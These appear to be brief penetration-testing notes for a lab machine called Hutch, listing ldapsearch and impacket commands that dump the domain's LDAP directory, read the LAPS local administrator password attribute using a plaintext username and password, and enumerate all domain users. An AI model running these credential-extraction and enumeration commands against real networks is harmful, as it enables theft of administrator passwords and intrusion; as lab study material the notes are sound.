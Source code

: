 
### LDAPSEARCH

Domain is hutch.offec

```bash
ldapsearch -x -H ldap://192.168.220.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
#### LAPS Password Pulling

```bash
ldapsearch -x -H ldap://192.168.220.122 -b "dc=hutch,dc=offsec" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192
```

### GetAllUsers

```bash
impacket-GetADUsers -all hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.220.122 | cut -d " " -f 1 >user.txt
```
